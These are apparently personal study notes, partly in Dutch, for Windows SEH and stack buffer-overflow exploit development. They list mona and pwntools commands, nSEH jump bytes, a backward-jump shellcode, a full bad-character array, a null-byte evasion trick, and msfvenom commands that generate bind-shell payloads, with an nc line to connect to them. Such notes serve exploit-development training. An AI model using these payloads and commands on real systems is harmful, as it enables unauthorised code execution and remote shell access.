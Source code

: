 ## PWNTOOLS
### PWN TOOLS pattern create:
```
cyclic 6000
cyclic -l 0x6D616169
```

## Mona
### pattern_create
```
!mona pc 2500 # lengte van de pattern
Mona pattern_offset
!mona po 42326742 # waarde van EIP
Mona vindt pop pop ret
!mona seh 
!mona seh -cpb '\x00'
Mona egg hunter
!mona egg -t "w00t"
!mona find -type asc -s "w00t"
Jump over nSEH
b"\xeb\x06\x90\x90" # JMP 6 bytes forward

0x00 tot 7F = 0 - 128 vooruit 
0x80 tot FF = 0 - 128 achteruit MAAR ANDERSOM
```
dus 0xFF 1 byte backwards and 0x80 = 128 bytes back


# Conditional Jump die altijd waar is over (nSEH)
\x75\x08         ; JNZ SHORT [+0x10] = Jump if ZF is not 0
\x74\x06         ; JZ SHORT [+0x8] = Jump if ZF is 0


Als je een heel stuk terug wil springen in je buffer kun je de volgende shellcode gebruiken, deze springt 786 bytes terug (let op wel SEH en nSEH er voor uiteraard):
```
"\x59\x59\x59\xfe\xcd\xfe\xcd\xfe\xcd\xff\xe1"   # 11 bytes, pop ecx * 3, dec ch (take 256 from ecx) * 3, jmp ecx
```

The code is shown below, and works based on the fact that after taking the original POP, POP, RETN to jump into the four byte space before the SEH Overwrite, another pointer to the same memory location exists three places down on the stack. We basically get this memory address into the ECX register, decrement the CH register by 1 three times (which has the affect of decreasing ECX by a total of 768 or three times 256 since CH represents the second least significant byte of ECX), and then JUMP to ECX. This moves us back 768 bytes from the location where the original POP, POP, RETN instruction lands, and gives us more than enough space to use most Windows shellcode. At 11 bytes it is also very compact and will fit into very small buffer areas.
```
"\x59\x59\x59\xfe\xcd\xfe\xcd\xfe\xcd\xff\xe1"
```
```
11 bytes
POP ECX \x59
POP ECX \x59
POP ECX \x59
DEC CH \xfe\xcd
DEC CH \xfe\xcd
DEC CH \xfe\xcd
JMP ECX \xff\xe1
```



Bad chars:
```
• 0x00 – is a common string terminator. 
• 0x0a, 0x0d – carriage returns, and line feeds might often be treated as line terminators, especially in software that makes use of HTTP or FTP protocols. 
• 0xff – this byte is often interpreted as EOF (End Of File) .
```

jmp esp zonder mem adres beginnende met 00
```
!mona jmp -r esp -cpb '\x00'
```

“Each time a POP <register> occurs, ESP is moved towards higher addresses by one position (1 position = 4 bytes for a 32-bit architecture). 
 Each time a RET occurs, the contents of the address ESP points at are put in EIP and executed (also ESP is moved, but this is not important here).”

Short jumps
https://thestarman.pcministry.com/asm/2bytejumps.htm

Bind shell
```
msfvenom -p windows/shell_bind_tcp LPORT=12345 -f python -v shellcode -b '\x00' EXITFUNC=thread
nc -vn 127.0.0.1 12345
msfvenom -p windows/shell_bind_tcp LPORT=443 LHOST=192.168.178.31 -f python -v shellcode -b '\x00\x0a\x0d\x20\x25' EXITFUNC=thread
```
  
Mona create bytearray
```
!mona ba -cpb '\x00\x0a\x0d\x20\x25'
  
bad_chars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
bad_chars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
bad_chars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_chars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_chars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_chars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_chars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_chars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
Mona compare
!mona compare -f bytearray.bin -a [address where array begins]
!mona compare -f bytearray.bin -a 0180f960

Set a breakpoint on all current SEH Handler function pointers
!mona bpseh

PWN tools
from pwn import asm

asm('mov eax, 0') # => '\xb8\x00\x00\x00\x00'

Truuk voor bijv null byes, wellicht handig
   0x00636578 # (\x00cex) 
+ 0x01010101 # Deze tellen er bij op
-------------------------
   0x01646679

in assembly dus:
mov reg, 0x01646676
sub  reg, 0x01010101
push reg # nu staat ie op de stack met de null ;)

 python -m SimpleHTTPServer 8000
